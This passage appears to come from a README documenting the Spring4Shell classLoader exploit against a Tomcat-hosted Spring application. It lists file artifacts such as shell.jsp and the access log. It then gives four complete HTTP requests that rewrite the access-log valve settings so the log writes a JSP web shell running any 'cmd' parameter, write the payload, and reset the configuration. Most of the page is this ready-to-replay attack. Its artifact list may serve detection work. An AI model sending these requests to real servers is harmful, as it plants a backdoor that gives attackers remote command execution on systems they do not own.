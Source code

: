 ## File Artifacts
- `logs/localhost_access_log_.txt` (localhost could be something different)
- `webapps/ROOT/shell.jsp` or different filenames depending on the exploit

## Exploit HTTP Packets
### 1. Resetting Log File Date Format

```http
POST /hello/greeting HTTP/1.1
Host: localhost:8080
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_
```
### 2. Modifying Log Configuration

```http
POST /hello/greeting HTTP/1.1
Host: localhost:8080
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 698

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
### 3. Writing Payload

```http
GET /hello/greeting HTTP/1.1
Host: localhost:8080
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
prefix: <%
suffix: %>//
c: Runtime
```

### 4. Resetting Log Configuration (Pattern)

```http
POST /hello/greeting HTTP/1.1
Host: localhost:8080
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

class.module.classLoader.resources.context.parent.pipeline.first.pattern=
```
